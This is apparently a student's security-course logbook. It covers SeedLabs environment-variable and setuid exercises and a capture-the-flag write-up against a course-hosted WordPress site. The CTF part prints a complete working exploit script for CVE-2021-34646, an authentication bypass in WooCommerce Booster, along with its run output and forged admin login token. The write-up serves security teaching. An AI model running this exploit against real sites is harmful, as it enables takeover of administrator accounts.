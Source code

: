 # Trabalho realizado na Semana #4

---

# SeedLabs Tasks

## Task 1 : Manipulating Environment Variables

<figure>
   <img src="images/logbook4/printenv.png" alt="Usage of &quot;printenv&quot;" width="50%" />
   <figcaption><strong>Fig 1. </strong> Usage of &quot;printenv&quot;</figcaption>

</figure>

<figure>
   <img src="images/logbook4/env.png" alt="Usage of &quot;env&quot;" width="50%" />
   <figcaption><strong>Fig 2. </strong> Usage of &quot;env&quot;</figcaption>

</figure>

<figure>
   <img src="images/logbook4/export.png" alt="Usage of &quot;export&quot;" width="50%" />
   <figcaption><strong>Fig 3. </strong>Usage of &quot;export&quot;</figcaption>

</figure>

<figure>
   <img src="images/logbook4/unset.png" alt="Usage of &quot;unset&quot;" width="50%" />
   <figcaption><strong>Fig 4. </strong>Usage of &quot;unset&quot;</figcaption>

</figure>

In this task we learn that:

- *printenv* and *env* are used to display the environment variables set in a machine.

- To search for a specific environment variable, we can use `printenv <ENV_VAR>` or `env | grep <ENV_VAR>`

- To add an environment variable we can use *export*, like `export <ENV_VAR>=<ENV_VAL>`

- To remove an environment variable we can use *unset*, like `unset <ENV_VAR>`

---

## Task 2 : Passing Environment Variables from Parent Process to Child Process

### Step 1 - Child Process
The child process prints the environment variables

### Step 2 - Parent Process
The parent process also prints the same environment variables

### Step 3 - Conclusions
The results of `Step 1` and `Step 2` are the same, since the child process inherits the env variables from its parent.

---
## Task 3 : Environment Variables and *execve()*
### Step 1

<figure width="50%">
   <img src="images/logbook4/environnull.png" alt="running environnull" width="50%" />
   <figcaption><strong>Fig 5. </strong>Running environ.c</figcaption>

</figure>

The program has no results, since it doesn't inherit any environment variable.

We can see why if we read *execve()* manpage. The function signature is:

```c
int execve(const char *pathname, char *const argv[],
                  char *const envp[]);
```

The string array *envp* is supposed to have the environment variables and, in this case, we pass *NULL* to it, so, no environment variables are inherited. 

### Step 2

<figure width="50%">
   <img src="images/logbook4/environ.png" alt="running environ" width="50%" />
   <figcaption><strong>Fig 6.</strong>Running environ.c</figcaption\>

</figure>

After adding the environment variables present in *environ* (environment variables array) in the function's parameter *envp*, the program now prints all the environment variables, similar to Task 2.

### Step 3

The new program gets its environment variables from the third argument of the *execve*'s function: The *environ* variable, which is essentially an array that contains all the environment variables.

---
## Task 4 : Environment Variables and system()

Using the *system* we have the same results, as expected, since, in reality, we are calling the function:

```c
execl("/bin/sh", "sh", "-c", "usr/bin/env", (char *) NULL);
```

Which will afterwards use the *execve* function and the results will be the same (all the environment variables will be printed)

---
## Task 5 : Environment Variable and Set-UID Programs

### Step 2

```bash
[10/02/22]seed@VM:~/.../Labsetup$ gcc newprog.c
[10/02/22]seed@VM:~/.../Labsetup$ sudo chown root a.out
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwxrwxr-x 1 root seed 16768 Oct  2 21:20 a.out
[10/02/22]seed@VM:~/.../Labsetup$ sudo chmod 4755 a.out 
[10/02/22]seed@VM:~/.../Labsetup$ ll a.out 
-rwsr-xr-x 1 root seed 16768 Oct  2 21:20 a.out
```

### Step 3

<TODO>

---
## Task 6 : The PATH Environment Variable and Set-UID Programs

<TODO>

---
## Task 7 : The LD PRELOAD Environment Variable and Set-UID Programs

<TODO>

---

# CTF

## Challenge 1

O desafio 1 consiste em descobrir o CVE presente no website disponibilizado que permite adquirir

### Recon

Nota: Todo este processo poderia ter sido automatizado usando uma ferramenta como o [wpscan](https://wpscan.com/), contudo optamos por uma abordagem manual.

Na fase de recon, começamos por verificar as tecnologias utilizadas no site:

#### Step 1 - Descobrir as tecnologias utilizadas

```bash
❯ whatweb http://ctf-fsi.fe.up.pt:5001
http://ctf-fsi.fe.up.pt:5001/ [200 OK] Apache[2.4.54], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], IP[10.227.243.188], JQuery[3.6.0], MetaGenerator[WooCommerce 5.7.1,WordPress 5.8.1], PHP[8.0.23], Script[application/ld+json,text/javascript], Title[Secure WP Hosting &#8211; Military-grade secure hosting], UncommonHeaders[link], WordPress[5.8.1], X-Powered-By[PHP/8.0.23]
```

Sabemos agora que o website usa `wordpress` para o hosting, tal como podemos ver na homepage do mesmo.

#### Step 2 - Enumerar as versões utilizadas

Começamos por enumerar a versão do wordpress, acedendo ao endpoint [http://ctf-fsi.fe.up.pt:5001/comments/feed/](http://ctf-fsi.fe.up.pt:5001/comments/feed/), no qual descobrimos que a versão utilizada é a `5.8.1`.

Para enumerar os plugins vimos as stylesheets e os scripts utilizados e descobrimos uma stylesheet com o nome `woocommerce.css`. Como [Woocommerce](https://wordpress.org/plugins/woocommerce/) é um plugin conhecido de Wordpress, fomos pesquisar um pouco sobre ele e descobrimos que neste website está a ser usado o package [Wordpress Booster](http://ctf-fsi.fe.up.pt:5001/wp-content/plugins/woocommerce-jetpack/readme.txt) na versão `5.4.3`.

Pesquisando esta versão descobrimos que era vulnerável ao [CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646).

```bash
❯ searchsploit WooCommerce Booster  5.4.3
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass                                        | php/webapps/50299.py
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Este CVE permite dar Bypass à autenticação, sem permissões para o fazer, adequando-se então à descrição da challenge e sendo a flag: `flag{CVE-2021-34646}`

#### Step 3 - Enumerar os users existentes

Para enumerar os users existentes podemos aceder ao enpoint [ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1](ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/?per_page=100&page=1), no qual descobrimos, entre outras informações, a existência do user `admin`.

Ao descobrir isto tentamos imediatamente aceder ao `wp-admin` e testar as credenciais default `admin:admin`, mas neste caso, sem resultado.  

## CTF - Desafio 2

### Exploitation

Após sabermos que conseguiamos dar bypass à autenticação com este exploit e a existência do user `admin`, trata-se de uma questão de alterar o exploit e corrê-lo na instầncia do website:

#### Step 1 - Correr o Exploit

O exploit existente é:

```python
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
        url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
        print("status code != 200")
        print(r.headers)
        sys.exit(-1)

def email_time_to_timestamp(s):
    tt = email.utils.parsedate_tz(s)
    if tt is None: return None
    return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
    print(f"{W}Timestamp: {B}" + date)
    print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
    print("We need to generate multiple timestamps in order to avoid delay related timing errors")
    print("One of the following links will log you in...\n")

printBanner()



for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
        hash = hashlib.md5(str(unix-i).encode()).hexdigest()
        print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
        token='{"id":"'+ id +'","code":"'+hash+'"}'
        token = base64.b64encode(token.encode()).decode()
        token = token.rstrip("=") # remove trailing =
        link = url+"my-account/?wcj_verify_email="+token
        print(link + f"\n{RST}")
```

Após lermos o exploit e termos uma ideia de como funciona, percebemos que para corrê-lo basta passar os argumentos `url` e `id` (id do user admin, encontrado na fase de enumeração [1])

```bash
❯ python /usr/share/exploitdb/exploits/php/webapps/50299.py http://ctf-fsi.fe.up.pt:5001/ 1
Timestamp: Sun, 02 Oct 2022 18:14:05 GMT
Timestamp (unix): 1664734445

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4f2b6aac39e69113227cda21f4d56b54:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNGYyYjZhYWMzOWU2OTExMzIyN2NkYTIxZjRkNTZiNTQifQ
```

#### Step 2 - Aceder ao url resultante do script

Após aceder ao url resultante do script obtemos acesso de admin

<figure width="50%">
   <img src="images/logbook4/auth_bypass.png" alt="Admin Dashboard" width="50%" />
   <figcaption><strong>Fig 1.</strong> Admin Authentication Bypass</figcaption>

</figure>

### Step 3 - Aceder ao endpoint da flag

De seguida, precisamos apenas de aceder ao endereço fornecido no moodle (http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php) para ver os posts feitos pelo admin e abrir o post privado "Message to our employees", do qual podemos obter a flag: `flag{please don't bother me}`.
